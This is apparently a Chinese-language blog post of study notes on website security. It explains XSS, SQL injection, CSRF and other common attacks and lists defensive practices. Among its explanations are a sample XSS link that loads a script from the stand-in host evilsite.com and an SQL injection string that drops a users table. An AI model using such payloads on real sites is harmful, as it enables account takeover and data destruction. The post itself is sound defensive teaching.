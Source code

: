 ```yaml
---
layout:     post
title:      网站安全学习笔记
subtitle:   ......
date:       2022-6-7
author:     呆贝斯
header-img: img/post-bg-desk.jpg
catalog: true
onTop: true
tags:
    - 网站安全
---
```

## 什么是网站安全？
互联网是一个危险的地方！我们经常听到有关网站因拒绝服务攻击或在其主页上显示修改（通常是有害的）信息而变得不可用的消息。
在一些出名的案例中，上百万的密码、邮件地址和信用卡信息被泄露给了公众，导致网站用户面临个人尴尬和财务威胁。

网站安全的目的是防止这些（或者说所有）类型的攻击。更正式点说，站点安全就是为保护站点不受未授权的访问、使用、修改和破坏而采取的行为或实践。

有效的站点安全需要在对整个站点进行设计：包括 Web 应用编写、Web 服务器的配置、密码创建和更新的策略以及客户端代码编写等过程。
尽管这听起来很凶险，好消息是如果你使用的是服务器端的 Web 服务框架，那么多数情况下它默认已经启用了健壮而深思熟虑的措施来防范一些较常见的攻击。
其它的攻击手段可以通过站点的Web服务器配置来减轻威胁，例如启用HTTPS。
最后，可以用一些公开可用的漏洞扫描工具来协助发现你是否犯了一些明显的错误。

## 网站安全威胁

### 跨站脚本（XSS）

XSS 是一个术语，用来描述一类允许攻击者通过网站将客户端脚本代码注入到其他用户的浏览器中的攻击手段。
由于注入到浏览器的代码来自站点，其是可信赖的，因此可以做类似将该用户用于站点认证的 cookie 发送给攻击者的事情。
一旦攻击者拿到了这个 cookie，他们就可以登陆到站点，就好像他们就是那个用户，可以做任何那个用户能做的事情。
根据站点的不同，这些可能包括访问他们的信用卡信息、查看联系人、更改密码等。

有两种主要的方法可以让站点将注入的脚本返回到浏览器 -- 通常被称做 反射型 和 持久型 XSS 攻击。

+ `反射型 XSS 攻击`: 发生在当传递给服务器的用户数据被立即返回并在浏览器中原样显示的时候 -- 
当新页面载入的时候原始用户数据中的任何脚本都会被执行！ 
举个例子，假如有个站点搜索函数，搜索项被当作 URL 参数进行编码，这些搜索项将随搜索结果一同显示。
攻击者可以通过构造一个包含恶意脚本的搜索链接作为参数
（例如 http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js"></script>），然后把链接发送给另一个用户。
如果目标用户点击了这个链接，当显示搜索结果时这个脚本就会被执行。正如上述讨论的，
这促使攻击者获取了所有需要以目标用户进入站点的信息 -- 可能会购买物品或分享联系人信息。

+ `持久型 XSS 攻击`: 恶意脚本存储在站点中，然后再原样地返回给其他用户，在用户不知情的情况下执行。 
举个例子，接收包含未经修改的 HTML 格式评论的论坛可能会存储来自攻击者的恶意脚本。
这个脚本会在评论显示的时候执行，然后向攻击者发送访问该用户账户所需的信息。
这种攻击类型及其常见而且有效，因为攻击者不需要与受害者有任何直接的接触。 
尽管 POST 和 GET 方式获取到的数据是 XSS 攻击最常见的攻击来源，
任何来自浏览器的数据都可能包含漏洞（包括浏览器渲染过的 Cookie 数据以及用户上传和显示的文件等)。

防范 XSS 攻击的最好方式就是删除或禁用任何可能包含可运行代码指令的标记。
对 HTML 来说，这些包括类似 script、 object、 embed 和 link 的标签。

修改用户数据使其无法用于运行脚本或其它影响服务器代码执行的过程被称作输入过滤。
许多 Web 框架默认情况下都会对来自 HTML 表单的用户数据进行过滤。

### SQL注入

SQL 注入漏洞使恶意用户能够在数据库上执行任意 SQL 代码，从而允许访问、修改或删除数据，而无需考虑用户的权限。
成功的注入攻击可能会欺骗身份、创建具有管理权限的新身份、访问服务器上的所有数据或破坏/修改数据以使其无法使用。

如果传递给底层 SQL 语句的用户输入可以修改该语句的语义，这种漏洞便是存在的。
例如下面一段代码，本来是用来根据 HTML 表单提供的特定名字（userName) 来列出所有的用户：
```
statement = "SELECT * FROM users WHERE name = '" + userName + "';"
```
如果用户输入了真实的名字，这段代码会如预想的运行。然而一个恶意用户可以完全将这个 SQL 语句的行为改变为下面的新语句的行为，
只要通过将 userName指定为下列“粗体”的文本。修改后的代码创建了一个合法的 SQL 语句，该语句删除了整个 users 表，
然后从 userinfo 表中获取了所有数据（所有用户的信息都被暴露了）。这是有效的，
因为注入的文本的第一部分 (a';) 结束了原来的语句 ( ' 在 SQL 语句中是用来描述字符串常量的) 。
```
SELECT * FROM users WHERE name = 'a';DROP TABLE users; SELECT * FROM userinfo WHERE 't' = 't';
```
避免此种攻击的方法就是确保任何传递给 SQL 查询语句的用户数据都无法更改查询的本来用意。
有种方式便是将用户输入中任何在 SQL 语句中有特殊含义的字符进行转义。

SQL 语句把 ' 号作为一个字符串常量的开头的结尾。通过在前面放置一个斜杠，我们把单引号进行了转义 ( \' )，
然后 SQL 就会将其视为一个字符（作为字符串的一部分）。

在下面的语句中我们对 ' 字符进行了转义。SQL 会将粗体显示的整段字符串解释为 name(这个 name 很古怪，但至少是没有危害的！)
```
SELECT * FROM users WHERE name = 'a\';DROP TABLE users; SELECT * FROM userinfo WHERE \'t\' = \'t';
```
Web 框架通常会为你进行这种转义操作。例如 Django，可以确保任何传递给查询集合 (model 查询) 的用户数据都是已经转义过的。

### 跨站请求伪造（CSRF）

CSRF 攻击允许恶意用户在不知情或不同意的情况下使用其他用户的凭据执行操作。

这种类型的攻击最好通过例子来解释。John 是一个恶意用户，
他知道特定站点允许登录用户使用包含帐户名称和金额的 HTTP POST 请求向指定帐户汇款。
John 构建了一个表单，其中包含他的银行详细信息和作为​​隐藏字段的金额，
并将其通过电子邮件发送给其他站点用户（使用伪装成“快速致富”站点链接的提交按钮）。

如果用户单击提交按钮，将向服务器发送一个 HTTP POST 请求，
其中包含交易详细信息以及浏览器与站点关联的任何客户端 cookie（将关联的站点 cookie 添加到请求中是正常的浏览器行为）。
服务器将检查 cookie，并使用它们来确定用户是否已登录并有权进行交易。

最终的结果就是任何已登陆到站点的用户在点击了提交按钮后都会进行这个交易。John 发财啦！

这里的诀窍是，John 不需要访问那些用户的 cookie(或者说身份信息) -- 用户的浏览器存储了这些信息，
而且会自动将其包含在发送给对应服务器的请求中。

杜绝此类攻击的一种方式是在服务器端要求每个 POST 请求都包含一个用户特定的由站点生成的密钥 
( 这个密钥值可以由服务器在发送用来传输数据的网页表单时提供）。
这种方式可以使 John 无法创建自己的表单，因为他必须知道服务器提供给那个用户的密钥值。
即使他找出了那个密钥值，并为那个用户创建了表单，他也无法用同样的表单来攻击其他的所有用户。


### 其他威胁

+ `点击劫持`：在这种攻击中，恶意用户劫持了针对可见顶级站点的点击，并将它们路由到下方的隐藏页面。
例如，此技术可能用于显示合法的银行站点，但会将登录凭据捕获到 iframe 攻击者控制的不可见站点中。
点击劫持也可以用来让用户点击一个可见站点上的按钮，但这样做实际上是在不知不觉中点击了一个完全不同的按钮。
作为防御，您的站点可以通过设置适当的 HTTP 标头来防止自己嵌入到另一个站点的 iframe 中。

+ `拒绝服务`：DoS 通常是通过向目标站点充斥虚假请求来实现的，从而中断合法用户对站点的访问。
请求可能很多，或者它们可能单独消耗大量资源（例如，缓慢读取或上传大文件）。
DoS 防御通常通过识别和阻止“不良”流量同时允许合法消息通过来发挥作用。
这些防御通常位于 Web 服务器之前或内部（它们不是 Web 应用程序本身的一部分）。

+ `目录遍历`：在此攻击中，恶意用户尝试访问他们不应访问的部分 Web 服务器文件系统。
当用户能够传递包含文件系统导航字符（例如，../../）的文件名时，就会出现此漏洞。解决方案是在使用输入之前对其进行清理。

+ `文件包含`：在这种攻击中，用户能够指定一个“非预期”文件以在传递给服务器的数据中显示或执行。
加载后，此文件可能会在 Web 服务器或客户端执行（导致 XSS 攻击）。解决方案是在使用输入之前对其进行清理。

+ `命令注入`：命令注入攻击允许恶意用户在主机操作系统上执行任意系统命令。解决方案是在系统调用中使用用户输入之前对其进行清理。

## 常见提升网站安全做法
当 Web 应用信任来自浏览器的数据时，上述章节里提到的大多数攻击利用手段才能成功。无论你做什么其它的事情来提升你的网站的安全性能，
在将信息展示在浏览器之前、在使用 SQL 语句进行查询之前、在传递给一个操作系统或者文件系统之前，你应该过滤掉所有的用户源信息。

在你可以了解到的有关网站安全大多数课程之中，最重要的就是不要相信来自浏览器的数据。
包括在 URL 参数中的 GET 请求、POST 请求、HTTP 头、cookies、用户上传的文件等等。一定要每次都检查用户输入的信息。每次都预想最坏的结果。

你可以采取一些简单的步骤：
1. 采取更加强大的密码管理措施。当密码频繁更换时鼓励更加健壮的密码。采取双因素认证，也就是说除了密码，
用户还应该输入另一种认证码（通常是只有唯一一个用户拥有的通过一些物理硬件传输的，比如发送给用户手机的验证短信）。
2. 将你的服务器配制成 HTTPS 和 HTTP Strict Transport Security (en-US) (HSTS)。HTTPS 会加密你的用户和服务器之间传输的信息。
这使得登录认证、cookise、POST 数据及头信息不易被攻击者获得。
3. 持续追踪那些常见的网络攻击 (the current OWASP list is here)，先解决最脆弱的部分。
4. 使用 vulnerability scanning tools 来对你的网站进行一些安全测试 
(然后，你的非常受欢迎的网站还可以靠提供赏金来寻找 bug，就像 Mozilla 这样（like Mozilla does here）。
5. 只存储和展示你不得不需要的东西。比如，如果你的用户不得不存储一些敏感信息（如信用卡详明），只展示足以让用户识别卡号的几位数字即可，
却不足以让黑客复制之后在另一个站点使用。现今最常见的是只展示信用卡卡号后 4 位数字。

## 总结

这篇文章介绍了有关网络安全的概念，你应该避免一些常见的攻击。最重要的是，你应该理解一个网络应用程序，
不能相信任何来自网络服务器的数据！所有的用户数据在展示、使用 SQL或者回应系统之前应该被过滤查询。